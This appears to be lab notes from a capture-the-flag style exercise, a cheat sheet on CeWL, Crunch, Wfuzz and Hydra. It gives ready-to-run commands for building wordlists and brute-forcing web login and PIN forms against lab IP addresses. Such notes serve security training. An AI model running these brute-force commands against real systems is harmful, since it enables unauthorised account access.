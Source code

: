 ## CeWL

```
cewl http://10.10.198.183
```
Creates a wordlist based on site keywords

1. **Specify spidering depth:** The `-d` option allows you to set how deep CeWL should spider. For example, to spider two links deep: `cewl http://10.10.198.183 -d 2 -w output1.txt`
2. **Set minimum and maximum word length:** Use the `-m` and `-x` options respectively. For instance, to get words between 5 and 10 characters: `cewl http://10.10.198.183 -m 5 -x 10 -w output2.txt`
3. **Handle authentication:** If the target site is behind a login, you can use the `-a` flag for form-based authentication.
4. **Custom extensions:** The `--with-numbers` option will append numbers to words, and using `--extension` allows you to append custom extensions to each word, making it useful for directory or file brute-forcing.
5. **Follow external links:** By default, CeWL doesn't spider external sites, but using the `--offsite` option allows you to do so.

## Crunch

``crunch 3 3 0123456789ABCDEF -o 3digits.txt``
Generates a list of possible passcodes

The command above specifies the following:

- `3` the first number is the minimum length of the generated password
- `3` the second number is the maximum length of the generated password
- `0123456789ABCDEF` is the character set to use to generate the passwords
- `-o 3digits.txt` saves the output to the `3digits.txt` file

## WFuzz

Wfuzz is a tool designed for brute-forcing web applications. It can be used to find resources not linked directories, servlets, scripts, etc, brute-force GET and POST parameters for checking different kinds of injections (SQL, XSS, LDAP), brute-force forms parameters (user/password) and fuzzing.

```shell-session
wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://10.10.198.183/login.php -d "username=FUZZ&password=FUZ2Z"
```

- `-z file,usernames.txt` loads the usernames list.
- `-z file,passwords.txt` uses the password list generated by CeWL.
- `--hs "Please enter the correct credentials"` hides responses containing the string "Please enter the correct credentials", which is the message displayed for wrong login attempts.
- `-u` specifies the target URL.
- `-d "username=FUZZ&password=FUZ2Z"` provides the POST data format where **FUZZ** will be replaced by usernames and **FUZ2Z** by passwords.

## Hydra

`hydra -l '' -P 3digits.txt -f -v 10.10.123.72 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000`
